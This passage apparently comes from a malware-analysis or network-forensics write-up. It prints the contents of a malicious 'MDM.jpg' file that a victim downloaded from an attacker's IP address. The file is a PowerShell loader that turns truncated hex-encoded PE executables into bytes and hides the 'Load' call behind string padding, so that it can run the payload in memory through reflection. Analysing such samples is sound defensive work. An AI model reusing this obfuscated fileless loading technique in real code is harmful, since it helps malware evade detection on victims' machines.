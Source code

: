 ![Hex Payload](/assets/images/Selks/hex_payload.png)

*Fig 18: Hex Payloads*

The content inside the malicious __MDM.jpg__ downloaded by the victim through the the attacker IP, appears as follows:


```python

$hexString_bbb = "4D_5A_90_00_03_00_00_00_04_00_00_00_FF_FF_00_00_B8_00_00_00_00_00_00_00_40_00_00_00_00_00_00_00_00_00_00_00_00_00_00_00_00_00_00_00_00_00_00_00_00_00_00_00_00_00_00_00_00_00_00_00_80_00_00_00_0E_1F_BA_0E_00_B4_09_CD_21_B8_01_4C_CD_21_54_68_69_73_20_70_72_6F_67_72_61_6D_20_63_61_6E_6E_6F_74_20_62_65_20_72_75_6E_20_69_6E_20_44_4F_53_20_6D_6F_64_65_2E_0D_0D_0A_24_00_00_00_00_00_00_00_50_45_00_00_4C_01_03_00_FC_C6_3F_65_00_00_00_00_00_00_00_00_E0_00_02_01_0B_01_08_00_00_F8_00_00_00_0A_00_00_00_00_00_00_2E_16_01_00_00_20_00_00_00_20_01_00_00_00_40_00_00_20_00_00_00_02_00_00_04_00_00_00_00_00_00_00_04_00_00_00_00_00_00_00_00_60_01_00_00_02_00_00_00_00_00_00_02_00_60_85_00_00_10_00_00_10_00_00_00_00_10_00_00_10_00_00_00_00_00_00_10_00_00_00_00_00_00_00_00_00_00_00_DC_15_01_00_4F_00_00_00_00_20_01_00_FF_07_00_0_continue....
$hexString_pe = "4D_5A_90_00_03_00_00_00_04_00_00_00_FF_FF_00_00_B8_00_00_00_00_00_00_00_40_00_00_00_00_00_00_00_00_00_00_00_00_00_00_00_00_00_00_00_00_00_00_00_00_00_00_00_00_00_00_00_00_00_00_00_80_00_00_00_0E_1F_BA_0E_00_B4_09_CD_21_B8_01_4C_CD_21_54_68_69_73_20_70_72_6F_67_72_61_6D_20_63_61_6E_6E_6F_74_20_62_65_20_72_75_6E_20_69_6E_20_44_4F_53_20_6D_6F_64_65_2E_0D_0D_0A_24_00_00_00_00_00_00_00_50_45_00_00_4C_01_03_00_3F_32_26_90_00_00_00_00_00_00_00_00_E0_00_0E_21_0B_01_30_00_00_22_01_00_00_06_00_00_00_00_00_00_4E_40_01_00_00_20_00_00_00_60_01_00_00_00_40_00_00_20_00_00_00_02_00_00_04_00_00_00_00_00_00_00_06_00_00_00_00_00_00_00_00_A0_01_00_00_02_00_00_00_00_00_00_03_00_60_85_00_00_10_00_00_10_00_00_00_00_10_00_00_10_00_00_00_00_00_00_10_00_00_00_00_00_00_00_00_00_00_00_00_40_01_00_4B_00_00_00_00_60_01_00_64_03_00_00_00_00_00_00_00_00_00_00_00_00_00_00_00_00_00_00_00_80_01_00_0C_00_00_00_BE_3F_01_00_1C_00_00_00_00_00_00_00_00_00_00_00_00_00_00_00_00_00_00_00_00_00_00_00_00_00_00_00_00_00_00_00_00_00_00_00_00_00_00_00_00continue...."

Sleep 5
[Byte[]] $NKbb = $hexString_bbb -split '_' | ForEach-Object { [byte]([convert]::ToInt32($_, 16)) }
[Byte[]] $pe = $hexString_pe -split '_' | ForEach-Object { [byte]([convert]::ToInt32($_, 16)) }

Sleep 5
$HM = 'L###############o################a#d' -replace '#', ''
$Fu = [Reflection.Assembly]::$HM($pe)

```